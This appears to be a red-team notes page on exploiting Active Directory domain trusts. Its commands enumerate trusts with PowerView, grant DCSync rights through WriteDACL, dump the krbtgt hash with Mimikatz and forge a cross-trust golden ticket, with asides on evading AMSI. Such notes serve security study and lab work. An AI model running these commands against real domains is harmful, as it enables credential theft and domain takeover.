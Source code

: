 # Active Directory Domain Exploitation

_"Note that the Active Directory domain is not the security boundary; the AD forest is."_ - [Sean Metcalf](https://adsecurity.org/?p=1640)

For [[AD-Forest-Exploitation]] - one day...

#### Trust Definitions

For more depth and related information consider reading [[Active-Directory]].

Domain Trust Typology:
- Inbound - Domain A  is trusted by Domain B (Domain A gains access to resources in B) 
- Outbound - Domain A trust is outbound to another Domain B (Domain B gains access to resources in A) 
- Bidirectional - Both Domains A and B trust one another both gains access to resources in each other 
- [Transitive](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust) - *"Transitivity determines whether a trust can be extended outside of the two domains with which it was formed.
	- *A transitive trust can be used to extend trust relationships with other domains.*
	- *A non-transitive trust can be used to deny trust relationships with other domains.*"

[harmj0y's](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/) Domain Trust Attack Strategy
1) Enumerate all trusts 
2) Enumerate all users/groups/computers that either:
	- Have access to resources
	- Are in groups or have users from another domain
3) Perform targeted account compromise 

Enumerate with: Bloodhound, .NET methods,  Win32API, LDAP, PowerView.ps1

[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts) + [[PowerView-Cheatsheet]]
```powershell
# Get Child domain FQDN
$env:userdnsdomain
# Get Forest Object
PV2 > Get-NetForest [-Forest megacorp.local]
PV3 > Get-Forest [-Forest megacorp.local]
# Get all domains in a forest:
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
# Enumerate trusts for current domain via .NET 
nltest /trusted_domains
# Enumerate trusts via Win32 API (PowerView):
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft
# Enumerate trusts via LDAP (PowerView):
PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```
SIDHistory/ExtraSIDs hopping
```powershell
netdom.exe trust $childDomain.$domain.$tld /domain:$domain.$tld /quarantine
```

#### WriteDACL

`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```

#### Ticket Attacks

Consider your options: [[Silver-Tickets]], [[Golden-Tickets]], [[Diamond-Tickets]] and [[Sapphire-Tickets]], but weight up the Opsec concerns. For a cross-trust [[Golden-Tickets]] with [[Mimikatz-Cheatsheet]] or [[Rubeus-Cheatsheet]]
```powershell
# import-module | . .\PowerView.ps1  -- somehow - beware AMSI and Blue
# Get Child domain FQDN:
PS > $env:userdnsdomain
# Child domain's DC machine account and its RID:
PV2 > (Get-NetComputer -ComputerName DC01.$childDomain.$domain.$tld -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.$childDomain.$domain.$tld | select ObjectSID).ObjectSID

# Get child domain SID
PV > Get-DomainSID
# SID of the parent domain
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# Create ticket with
# Mimkatz 
# Remember to cycle through exfil and catagorise for data handling
privilege::debug
log
token::elevate
!+
lsadump::dcsync /user:$domainTargeting\krbtgt
# Altered From https://tryhackme.com/room/exploitingad
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<sid of the child dc> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
# rubeus
```

####  SMBExec.ps1

If you can cross trust and SMB is open a very non-Opsec safe way would be to use [Invoke-TheHash - InvokeSMBExec](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1) to perform command execution over the network to remotely to achieve objectives.  


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)
[harmj0y's guide to attacking domain trusts](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/)
[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts)
[Sean Metcalf quote](https://adsecurity.org/?p=1640)